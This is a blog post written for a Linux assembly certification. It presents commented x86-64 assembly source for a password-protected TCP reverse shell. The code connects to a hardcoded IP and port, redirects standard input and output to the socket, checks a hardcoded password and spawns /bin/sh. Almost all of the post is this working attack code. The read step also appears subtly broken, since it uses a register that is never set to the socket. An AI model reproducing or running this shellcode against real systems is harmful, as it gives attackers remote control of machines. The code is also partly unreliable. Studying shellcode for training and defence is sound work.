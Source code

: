 ```yaml
---
layout: post
title: SLAE64 Assignment 2 - password protected tcp revshell
excerpt: asm code and comments for my pass protected tcp reverse shell
---
```


    ; author     : Sandro "guly" Zaccarini SLAE64-1497
    ; purpose    : this program will open a connection to given IP:Port and spawns a shell
    ;              shell if the first 4chars from  match an hardcoded password
    ;              this code has been written for SLAE64 assignment 2
    ; references : https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/ ,
    ;              /usr/include/linux/net.h
    ; license    : CC-BY-NC-SA
    ;
    ; high level flow:
    ; socket -> connect -> read pass -> dup fd -> spawn /bin//sh
    
      global _start
    
    ; define
    PASSWORD equ 'guly'     ; 0x796c7567
    PORT     equ 0x5c11     ; 4444
    IP       equ 0x0101017f ; 127.1.1.1 as starter
    
      _start:
    ; create a TCP socket
    ; sock = socket(AF_INET, SOCK_STREAM, 0)
    ; rdi => AF_INET = 2
    ; rsi => SOCK_STREAM = 1
    ; rax => syscall number 0x29
    xor rax,rax
    push rax
    pop rsi
    push rsi
    pop rdx
    add ax,0x29
    mov dil, 0x2
    inc rsi
    syscall
    
    ; syscall rets socketfd to rax. copy it to edi, we need it for the whole process
    ; again, working with 32bit to save some bytes
    mov edi,eax
    
    ; connect(sock, (struct sockaddr *)&server, sockaddr_len)
    ; struct:
    ; server.sin_family = AF_INET => 0x2
    ; server.sin_port = htons(PORT) => from PORT
    ; server.sin_addr.s_addr = inet_addr("127.0.0.1") => from IP
    ; bzero(&server.sin_zero, 8)
    ;
    ; rdi => 
    ; rsi => 
    ; rax => syscall id 0x2a
    ;
    ; use rax to make room for the struct
    xor rax,rax
    push rax
    mov dword [rsp + 0x4], IP
    mov word [rsp + 0x2], PORT
    mov byte [rsp], 0x2
    
    ; push the struct
    ; smaller than mov
    push rsp
    pop rsi
    push 0x10
    pop rdx
    mov al, 0x2a
    ; and do the call
    syscall
    
    ; duplicate sockets
    ; dup2 (new, old)
    xor eax,eax
    xor rsi,rsi
    mov al, 0x21
    syscall
    
    mov al, 0x21
    inc esi
    syscall
    
    mov al, 0x21
    inc esi
    syscall
    
    ; check for the password
    readpass:
    ; syscall is 0x0, so a xor will be perfect
    ; i also need to move a small value to rdx, i zero it too
    xor rdx, rdx
    mov rax,rdx
    
    ; to have some room for the read, i'm pushing a full null here
    push rdx
    
    ; because i known my pass is just 0x4 chars, i force it here.
    ; see description for possible issue
    mov dl, 0x4
    
    ; and put the pointer to the stack to rsi
    mov rsi, rsp
    mov rdi,r9
    
    ; do the read
    syscall
    
    ; to change something from bindshell, do it with cmp and a straight check
    cmp dword [rsp], PASSWORD
    ; if doesn't match, back to readpass. using this "loop" i can fail password and have
    ; the shell listening again.
    ; as i said in the description, i don't care about bruteforce and that's why no counter
    jne readpass
    
    
    
    
    ; and finally, execve
    ;
    ; rdi => pointer to filename, /bin//sh null terminated
    ; rsi => pointer to argv
    ; rdx => pointer to envp, null
    ; rax => syscall id 0x3b
    
    ; push a null terminator
    xor rax, rax
    push rax
    ; pointer to 0x0 for envp
    mov rdx,rsp
    
    ; and push /bin//sh in reverse
    mov rbx, 0x68732f2f6e69622f
    push rbx
    
    ; finally store pointer to rdi and rsi
    mov rdi, rsp
    push rax
    push rdi
    mov rsi, rsp
    
    ; do the call
    add rax, 0x3b
    syscall
    
*This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/*
